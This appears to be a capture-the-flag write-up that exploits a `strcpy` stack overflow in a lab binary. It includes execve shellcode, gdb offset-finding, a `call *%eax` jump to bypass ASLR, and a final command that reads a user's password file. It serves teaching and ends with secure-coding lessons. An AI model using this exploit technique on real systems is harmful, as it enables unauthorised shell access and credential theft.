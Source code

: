 ## Level 4: always check array boundaries

The source code on this level is surprisingly simple:
```
void fun(char *str) {
  char buf[1024];
  strcpy(buf, str);
}

int main(int argc, char **argv) {
  // ... 
  fun(argv[1]);
  // ... 
}
```

There is an obvious problem here:
`strcpy` is well-known to be unsafe,
as it does not check if the destination array has enough space to store the source array.
With a sufficiently long command line argument we can overwrite the memory area beyond `buf` in the `fun` function.

If you recall from the previous challenge,
in the OS of our live CD,
the return address is stored on the stack after local variables.
That means that by overwriting `buf`,
we can overwrite the return address,
which in turn means that we can make the program jump to anywhere we want.

In the previous challenge we overwrote the return address to jump to the insecure function `run`.
In this case, however,
we don't have such insecure function within the program,
and thus no easy place to jump to.
On the other hand,
perhaps we can bring into the program our own code using the input string,
and then write over the end of the buffer to jump to our code.

What kind of code do we want to write to the input string?
The simplest possible code that will be useful for us is something that executes `/bin/sh`, also known as *shellcode*.
How can we write such code into the input string?
We could insert the binary content of the compiled shellcode the same we inserted the return address in binary form.

Writing the shellcode itself is beyond the scope of this article.
It is thoroughly explained in the Smash The Stack article,
see in the resources.
Essentially it is a modified version of this simple C program:
```
#include <stdio.h>

void main() {
   char *name[2];

   name[0] = "/bin/sh";
   name[1] = NULL;
   execve(name[0], name, NULL);
}
```
If you just compile this code and take its binary content to insert as the shellcode,
it won't work, for several reasons.
It is necessary to modify the machine language instructions,
among other things,
to eliminate null bytes from it.
This is necessary,
because `strcpy` stops copying at the first null character it sees,
which would break the shellcode.
There are many more important details to writing a suitable shellcode,
you can read more about it in the Smash The Stack article.

For our purposes,
we will take the finished shellcode from the Smash The Stack article:
```
char shellcode[] =
        "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
        "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
        "\x80\xe8\xdc\xff\xff\xff/bin/sh";
```
Let's save it in the environment variable `EGG`:
```
EGG=$(printf '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh')
```
Next,
like in the previous challenge,
we need to find the right position in the input spring where we can overwrite the return address.
We know that the content of the stack will look like this when we are inside `fun`:
```
0x0000      content of the local variable buf (1024 bytes)
0x0400+?    the return address
```
That is, the return address is somewhere soon after the end of the buffer.
We can find the right position using `gdb`.
When we overwrite the return address with something invalid,
the program crashes with segmentation fault.
When `gdb` reaches such code,
it prints out this wrong address.
With a suitable input string and the output `gdb`,
we can find out the precise location we will want to overwrite.

Let's start the debugger,
and run the program with a crafted input string,
hopefully overwriting the return address:
```
level03@box:/levels/level04$ gdb ./level04
(gdb) run $(python -c 'print "A" * 1100')
Starting program: /levels/levels04/level04 $(python -c 'print "A" * 1100')

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```
Good, we have successfully overwritten the return address with "A"s.
Let's try a shorter string,
and something that will help us guess the correct position better:
```
(gdb) run $(python -c 'print "A" * 1024 + "abcdefghijklmnopqrstuvwxyz"')
Starting program: /levels/levels04/level04 $(python -c 'print "A" * 1024 + "abcdefghijklmnopqrstuvwxyz"')

Program received signal SIGSEGV, Segmentation fault.
0x706f6e6d in ?? ()
```
70, 6f, 6e, 6d, that's a decreasing sequence,
so it must be somewhere in our `abcd...xyz` sequence.
We can know exactly if we check the hexadecimal codes of our sequence:
```
$ echo abcdefghijklmnopqrstuvwxyz | hexdump -C
00000000  61 62 63 64 65 66 67 68  69 6a 6b 6c 6d 6e 6f 70  |abcdefghijklmnop|
00000010  71 72 73 74 75 76 77 78  79 7a 0a                 |qrstuvwxyz.|
0000001b
```
As `m=6d n=6e o=6f p=70`,
the return address is in the position of the letters `mnop`.
Since there are 12 letters before "m",
we can calculate that we need an input string of length 1024 + 12 + 4,
where the last 4 bytes will be the address we want to jump to.
Let's verify this final number with one last test in `gdb`:
```
(gdb) run $(python -c 'print "A" * 1036 + "mmmm"')
Starting program: /levels/levels04/level04 $(python -c 'print "A" * 1036 + "mmmm"')

Program received signal SIGSEGV, Segmentation fault.
0x6d6d6d6d in ?? ()
```
Ok that's really the one.
What next?
Our string should start with the shellcode,
followed by some padding until 1036 bytes,
and finally the address to jump to.
We can confirm the size of our shellcode using `wc -c`:
```
$ printf $EGG | wc -c
45
```
Thus, we will need 1036 - 45 = 991 padding characters.
But what about the address?
We want to jump to the address of `buf`,
but how can we know that?
Unfortunately, we cannot.
In the past,
the stack used to be always at the same address in memory,
which was relatively easy to exploit.
If you could get your shellcode on the stack,
it was relatively easy to guess the right address to jump at.
As of today,
this is no longer feasible,
thanks to the address space layout randomization (ASLR) used in modern operating systems.

So what can we do?
After hours of poking around,
I stumbled upon some interesting details which can be combined to an interesting effect:

- On 32-bit x86 processors (the architecture of the live CD),
  a function that returns a pointer value places its result in register `%eax`.

- There happen to be addresses inside the program which execute the code at the address stored in register `%eax`.

- `strcpy` is the last call in the function `fun`.

What happens is,
the `strcpy` will return the address of the destination array `buf`,
which will be stored in register `%eax`.
And since it is the last line of code in the function,
the register will still contain the address of `buf` when the function returns.
Thus,
if we overwrite the return address in the memory with the address that executes jumping to the content of `%eax`,
and consequently `buf`,
our shellcode will get executed.

We can find the location of calls with register `%eax` with:
```
level03@box:/levels/level04$ objdump -d level04 | grep call.*eax
 8048488:	ff 14 85 1c 9f 04 08 	call   *0x8049f1c(,%eax,4)
 80484cf:	ff d0                	call   *%eax
 80485fb:	ff d0                	call   *%eax
```
That's it, we can use either `0x080484cf` or `0x080485fb` as the address to jump to.
```
level03@box:/levels/level04$ ./level04 $EGG$(python -c 'print "A" * 991')$(printf '\xcf\x84\x04\x08')
/levels/level04 $ cat /home/level04/.password 
paegeiqu
```

What can we learn from all this?

- Don't use unsafe functions like `strcpy`.
  Stick to their safer versions like `strncpy`.

- Always make sure that arrays cannot be accessed beyond their boundaries.

- Always validate user input, and set reasonable limits to the length.

